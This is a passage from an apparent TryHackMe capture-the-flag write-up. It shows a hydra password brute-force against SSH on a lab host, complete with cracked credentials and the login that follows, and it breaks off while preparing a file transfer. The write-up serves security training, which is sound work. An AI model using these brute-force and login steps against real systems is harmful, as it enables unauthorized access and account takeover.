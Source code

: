```tsx
ow5APF>6r,y4krSo
```

Then using `hydra` to crack the password with ******ssh****** protocol:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/JackofAllTrades]
└─$ hydra -l 'jack' -P jacks_password_list ssh://10.10.231.59:80
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-09 05:12:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.231.59:80/
[80][ssh] host: 10.10.231.59   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-09 05:12:48
```

**********Note:********** Remember to define the port `80` or you will get error because the default port of ******ssh****** service is on `22`.

Use the founded password to login ********ssh:********

```tsx
┌──(kali㉿kali)-[~/TryHackMe/JackofAllTrades]
└─$ ssh jack@10.10.231.59 -p 80       
The authenticity of host '[10.10.231.59]:80 ([10.10.231.59]:80)' can't be established.
ED25519 key fingerprint is SHA256:bSyXlK+OxeoJlGqap08C5QAC61h1fMG68V+HNoDA9lk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.231.59]:80' (ED25519) to the list of known hosts.
jack@10.10.231.59's password: 
jack@jack-of-all-trades:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth),1001(dev)
```

Check the current files/directories located on the current directory, I found the `user.jpg` file → I will transfer it to my own local machine for analyzing:

```tsx
jack@jack-of-all-trades:~$ pwd
/home/jack

jack@jack-of-all-trades:~$ ls -l
total 288
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
```

To transfer the file `user.jpg` to the local machine, I have to start the ******ssh****** service on local:
